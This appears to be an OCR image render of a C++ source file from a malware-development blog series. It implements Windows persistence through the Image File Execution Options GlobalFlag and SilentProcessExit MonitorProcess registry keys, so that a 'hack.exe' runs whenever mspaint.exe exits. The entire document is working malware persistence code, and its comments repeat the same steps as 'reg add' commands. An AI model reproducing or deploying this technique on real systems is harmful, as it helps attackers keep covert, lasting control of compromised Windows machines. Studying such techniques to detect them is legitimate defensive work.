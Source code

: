 ```cpp
/*
pers.cpp
windows persistence via IFEO (GlobalFlag)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\mspaint.exe";

  // silent exit
  const char* silent = "SOFTWARE\\Microsoft\\Windows 
  NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe";

  // evil app
  const char* exe = "Z:\\2022-09-10-malware-pers-10\\hack.exe";

  // GlobalFlag
  // LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
    RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, (const BYTE*)&gF, sizeof(gF));
    RegCloseKey(hkey);
  }

  // res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  //"SOFTWARE\\Microsoft\\Windows 
  //NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)silent, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows 
    // NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t 
    // REG_DWORD /d 1
    // reg add "HKLM\SOFTWARE\Microsoft\Windows 
    // NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d 
    // "Z:\..\hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, 
    (const BYTE*)&rM, sizeof(rM));
    RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```
